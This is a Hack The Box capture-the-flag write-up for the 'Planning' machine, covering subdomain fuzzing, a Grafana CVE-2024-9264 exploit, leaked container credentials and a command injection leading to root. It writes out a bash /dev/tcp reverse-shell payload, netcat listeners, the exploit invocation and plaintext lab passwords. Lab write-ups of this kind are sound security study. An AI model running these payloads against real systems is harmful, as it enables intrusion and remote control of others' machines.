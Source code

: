 
🧠 **Hack The Box – Planning (Easy)**
**Machine Info**

* Name: Planning
* Difficulty: Easy
* OS: Linux
* IP: 10.10.11.68
* Author: Vishnu S
* Completed on: July 6, 2025

---

## 🔍 Summary

The Planning machine involves virtual host enumeration, exploiting Grafana (CVE-2024-9264), Docker container escape, and privilege escalation through port forwarding and command injection in an internal panel.

---

## 🛠 Tools Used

* `nmap` – Port scanning
* `ffuf` – Subdomain enumeration
* `python3` – For exploit execution
* `netcat` – Reverse shell listener
* `ssh` – Remote login & port forwarding
* `linPEAS` – Privilege escalation enum

---

## 🧾 Walkthrough

### 1️⃣ Initial Enumeration

```bash
nmap 10.10.11.68
```

Ports found:

* 22 (SSH)
* 80 (HTTP)

---

### 2️⃣ Virtual Host Setup

Added to `/etc/hosts`:

```
10.10.11.68 planning.htb
```

Then accessed `http://planning.htb`

---

### 3️⃣ Subdomain Discovery

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

Found: `grafana.planning.htb`
Added to `/etc/hosts`

---

### 4️⃣ Grafana Exploitation (CVE-2024-9264)

Visited: `http://grafana.planning.htb`
Default credentials:

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

Used public exploit:
[https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

```bash
nc -lvnp 9001

python3 poc.py --url http://grafana.planning.htb \
--username admin \
--password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.14.96 \
--reverse-port 9001
```

✅ Reverse shell obtained.

---

### 5️⃣ Docker Escape

Inside the container:

```bash
env
```

Found:

```
Username: enzo
Password: RioTecRANDEntANT!
```

SSH into the host:

```bash
ssh enzo@10.10.11.68
```

Captured user flag:

```bash
cat /home/enzo/user.txt
```

---

### 6️⃣ Privilege Escalation

Uploaded and ran `linpeas.sh`
Found credentials in:

```bash
cat /opt/crontabs/crontab.db
```

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

Port 8000 exposed locally.

---

### 7️⃣ Port Forwarding

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

Visited `http://localhost:8000`
Logged in with `root` credentials.

Injected reverse shell payload:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.96/8888 <&1'
```

Set up listener:

```bash
nc -lvnp 8888
```

✅ Gained root shell.

---

## 🏁 Flags Captured

```bash
cat /home/enzo/user.txt
cat /root/root.txt
```

---

## ✅ Conclusion

The Planning box shows the danger of exposed services and credentials:

* Default credentials on Grafana
* Hardcoded env vars in Docker
* Command injection in internal apps
* Lack of proper service isolation

---

## 🔗 References

* [CVE-2024-9264](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9264)
* [Exploit Script](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)
* [HackTricks](https://book.hacktricks.xyz/)
* [Medium Writeup](https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7)

---



